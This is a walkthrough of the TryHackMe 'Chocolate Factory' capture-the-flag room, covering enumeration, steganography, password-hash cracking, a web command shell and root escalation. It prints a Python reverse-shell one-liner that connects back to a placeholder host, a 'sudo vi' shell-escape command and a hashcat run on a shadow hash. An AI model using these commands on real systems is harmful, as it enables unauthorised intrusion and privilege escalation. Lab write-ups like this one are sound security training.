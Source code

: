# [Chocolate Factory](https://tryhackme.com/room/chocolatefactory) TryHackMe CTF

![logo](./assets/golden_ticket.png)
---

```shell
export IP=10.10.185.246
```

Let's kick off with a few `nmap` scans to enumerate the box

```shell
nmap -sC -sV -v $IP -oN nmap/initial.txt
```
Reveals the following
```
Ports:
21 ftp
22 ssh
80 http
106 unique
110 unique
111 unique
113 unique
125 unique
```

During the nmap scan, I noticed that it took much to scan - because within each of the special ports, there was a hint about which file to get.

![hint](./assets/hint.png)

Thankfully as nmap did that for us, I was able to quickly find `http://localhost/key_rev_key` which points to a directory on the box.
Downloading the file and analysing it, it appears to be some sort of binary file we are meant to run... I decided that before I use Ghidra or equivilent I would run it through strings - and viola!

![First key](./assets/binary_key.png)

Some sort of key, throwing it into b64 and other base decodes doesn't reveal much so I postpone working on it.

Then I looked into the other ports, first ftp. It allowed anonymous login and there was a solitary `gum_room.png` file. Throwing it into a steg decode revealed that it was a large file encoded in base64. Decoding the base64 file revealed it to be a shadow file! With an exposed hash for a user `charlie`, which I immediately put into a hash-cracker

```shell
hashcat -m 1800 '$6$CZJnCPeQWp9/jpNx$khGlFdICJnr8R3JC/jTR2r7DrbFLp8zq8469d3c0.zuKN4se61FObwWGxcHZqO2RJHkkL1jjPYeeGyIJWE82X/' ~/wordlists/passwords/rockyou.txt
```


---

Moving on to the main website, I first enumerate it with `gobuster`

```shell
gobuster dir -t 64 -u $IP -w ~/wordlists/website_dir/directory-list-2.3-medium.txt -x .php,.txt,.html,.jpg,.png -o gobuster/dir_med.txt
```

Doing this I discover some interesting directories.
```
/home.php
/validate.php
```
Going into `home.php` revealed it to be a web-side command shell.

![home page](./assets/home.png)

I then use a python reverse shell to give myself better access to it
```shell
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<<IP>>",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

I check the php code for `validate.php` which contains the plaintext username and password for charlie

![validate](./assets/validate.png)

Using his credentials simply takes me back to `validate.php`.

Now that I have box access, I navigate and investigate charlie's home directory, which contains a user.txt (cannot view) but two files, teleport and teleport.pub; which are charlie's ssh public and private keys. Copying these over, I can now ssh into the box as charlie.

(Note that the hashcat cracker is still _pointlessly_ chugging away in the background)

As charlie, I am now able to grab the user flag and submit it. My new focus is on Priviledge Escalation.
I dutifully check charlie's sudo permissions even though I do not have his password.

![sudo](./assets/sudo.png)

We can sudo `/usr/bin/vi` without requiring a password - although with the caveat that we cannot run it as root - or is it?

```shell
sudo vi -c ':!/bin/bash -i' /dev/null
```

And we now have root access!

Going into `/root` though reveals that we are not quite done yet. There's a python script which will reveal our final flag!

![python script](./assets/root_script.png)

The script is using a Fermet Cipher, which requires a cipher and its key to decode. The cipher is hardcoded into the script and we had found the key in an earlier question.

Time to run the script and get our key...?

![import error](./assets/import_error.png)

Nope, the decoding library _is not even loaded_ onto the box and instead of trying to upload it to the box using http or scp, I throw in into an online decoder.

![decoded flag](./assets/decoded_flag.png)

And this room is _**complete!**_

![willy wonka](./assets/willy_wonka.jpg)
